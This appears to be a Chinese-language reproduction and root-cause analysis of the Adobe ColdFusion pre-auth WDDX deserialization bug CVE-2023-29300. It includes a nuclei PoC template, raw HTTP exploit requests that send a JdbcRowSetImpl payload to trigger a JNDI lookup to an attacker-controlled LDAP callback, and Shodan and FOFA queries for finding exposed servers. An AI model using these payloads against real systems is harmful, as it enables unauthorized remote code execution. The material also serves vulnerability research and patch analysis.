# 环境搭建

https://pan.baidu.com/s/1H2yIqOlGyejnB1c_oRZZ0Q?_at_=1689931753932

安装完后访问

http://172.23.60.111:8500/CFIDE/administrator/index.cfm

远程调试






# 漏洞复现

直接用nuclei的poc

```
id: CVE-2023-29300

info:
  name: Adobe ColdFusion - Pre-Auth Remote Code Execution
  author: rootxharsh,iamnoooob,pdresearch
  severity: critical
  description: |
    Adobe ColdFusion versions 2018u16 (and earlier), 2021u6 (and earlier) and 2023.0.0.330468 (and earlier) are affected by a Deserialization of Untrusted Data vulnerability that could result in Arbitrary code execution. Exploitation of this issue does not require user interaction.
  reference:
    - https://blog.projectdiscovery.io/adobe-coldfusion-rce/
    - https://helpx.adobe.com/security/products/coldfusion/apsb23-40.html
  metadata:
    max-request: 1
    fofa-query: app="Adobe-ColdFusion"
    shodan-query: http.component:"Adobe ColdFusion"
    product: coldfusion
    vendor: adobe
  tags: cve,cve2023,adobe,rce,coldfusion,deserialization

variables:
  callback: "{{interactsh-url}}"
  jndi: "ldap%3a//{{callback}}"

requests:
  - raw:
      - |
        POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        argumentCollection=<wddxPacket+version%3d'1.0'><header/><data><struct+type%3d'xcom.sun.rowset.JdbcRowSetImplx'><var+name%3d'dataSourceName'><string>{{jndi}}</string></var><var+name%3d'autoCommit'><boolean+value%3d'true'/></var></struct></data></wddxPacket>

    matchers:
      - type: dsl
        dsl:
          - contains(interactsh_protocol, "dns")
          - contains(body, "ColdFusion documentation")
        condition: and
```



直接打VPS的JNDI也通了



# 漏洞分析

补丁包中发现在`coldfusion.wddx.DeserializerWorker.java`文件的`startElement`方法中，新增了if对struct元素执行了validateWddxFilter()方法



这个方法是对WDDX数据格式在开始的时候会调用，如果该`struct`元素现在在其属性中包含新的检查`type`，确保 className 以 开头`coldfusion`并通过其他辅助检查。该`validateBlockedClass`函数指示完全限定类名 (FQCN) 将作为类型属性传递。

其实就是限定了类名以cold fusion开头

以下就是WDDX的格式样式

```
<wddxPacket version='1.0'><header/><data><struct type='className'><var name='prop_name'><string>prop_value</string></var></struct></data></wddxPacket>
```

这段代码是 WDDX（Web Distributed Data eXchange）数据格式的表示形式。WDDX 是一种用于在不同平台和编程语言之间交换数据的 XML 格式。它允许将复杂的数据结构，如数组、结构体、对象等，序列化为 XML 格式，以便在不同系统之间传递和解析数据。

让我解释一下这段代码的含义：

```
xmlCopy code
<wddxPacket version='1.0'>
  <header/>
  <data>
    <struct type='className'>
      <var name='prop_name'>
        <string>prop_value</string>
      </var>
    </struct>
  </data>
</wddxPacket>
```

这是一个 WDDX 数据包（wddxPacket）。它由三个主要部分组成：

1. `<header/>`：这部分通常是可选的，用于在 WDDX 数据包中包含一些元数据，例如数据的版本号、编码等。在这个例子中，没有包含任何实际的头部信息。
2. `<data>`：这部分包含数据的主要内容。在这个例子中，数据是一个结构体（struct），代表一个复杂的数据结构。结构体内部有一个变量（var），变量名为 "prop_name"，它的值是一个字符串（string）"prop_value"。
3. `</wddxPacket>`：这是数据包的结束标记。

所以，这个 WDDX 数据包表示一个包含一个结构体的数据，结构体内有一个名为 "prop_name" 的变量，它的值是字符串 "prop_value"。

WDDX 数据在 ColdFusion 中非常常用，它允许将数据在不同系统之间进行序列化和反序列化，以便进行数据交换和共享。其实有点像XMLDecoder那种感觉

## WDDX数据包解析

从payload看，在正常的payload前后还加上了一个无用字符，所以还是需要来看看解析流程



通过调用栈看到了解析流程的部分代码，在onEndElement方法中，对m_strictType进行了检查。可以看到就是WDDX中设置的ClassName，如果不为空的话则调用getClassBySignature



默认会去掉第一个和最后一个字符



然后通过反射加载类，最后setBeanProperties



> 方法`getPropertyDescriptors()`返回`BeanInfo`一个对象数组PropertyDescriptor。每个`PropertyDescriptor`代表 bean 的一个属性，并包含有关属性名称、数据类型和 `getter/setter` 方法的信息。最终我们看到了 `IndexedPropertyDescriptor` 的用法，它有`getReadMethod`和getWriteMethod，分别对应 `getter` 方法和 `setter` 方法。



接下来通过循环获取Struct标签内传入的properties，然后获取其setter方法，通过反射调用



变量值作为唯一参数，这些变量值来自 WDDX 数据包，这又是用户控制的。

调用类的方法满足以下条件：

1. 该类必须有一个不带参数的公共构造函数。
2. 该方法必须是一个 setter，由其名称以“set”开头表示。
3. setter 方法必须只接受一个参数。

## Find sink

对于反序列化这种标签的源头在WddxDeserializer，如果反编译后可以看到FilterUtils类中调用了这个方法



此方法将请求上下文作为输入，并argumentCollection从表单或查询字符串中提取参数。然后检查检索到的输入以确定其是否为 JSON 类型。如果不是，则使用WDDXDeserialize()调用将该值反序列化为 WDDX 数据包。

接下来就是需要去找到CFC端点去触发GetArgumentCollection对我们易受攻击的接收器的调用并最终触发调用WDDXDeserialize

其中/CFIDE/adminapi/accessmanager.cfc是预验证有效的 CFC 端点。

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/2
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 275

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xclassNamex'><var name='VERSION'><string>1.0.0</string></var></struct></data></wddxPacket>
```

因为这个效果其实也就是去调用对应的setter方法，所以可以用到最常用的com.sun.rowset.JdbcRowSetImpl去进行JNDI注入

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

argumentCollection=<wddxPacket+version%3d'1.0'><header/><data><struct+type%3d'xcom.sun.rowset.JdbcRowSetImplx'><var+name%3d'dataSourceName'><string>{{jndi}}</string></var><var+name%3d'autoCommit'><boolean+value%3d'true'/></var></struct></data></wddxPacket>
```




# 遇到的问题

我在开启远程调试重启后，虽然能够执行到connect的lookup那里，但是并没有去到InitialContext到lookup，而我才搭建好的时候却可以通过payload收到JNDI请求


 CVE编号：CVE-2023-29298/CVE-2023-29300 / CVE-2023-38203 / CVE-2023-38204/


| ColdFusion 2018 | 更新 15 及更早版本 | 全部 |
| --------------- | ------------------ | ---- |
| ColdFusion 2021 | 更新 5 及更早版本  | 全部 |


参考链接：

https://helpx.adobe.com/coldfusion/developing-applications/using-web-elements-and-external-objects/using-xml-and-wddx/using-wddx.html?ref=blog.projectdiscovery.io

https://blog.projectdiscovery.io/adobe-coldfusion-rce/#updated-information

https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2023/CVE-2023-29300.yaml?ref=blog.projectdiscovery.io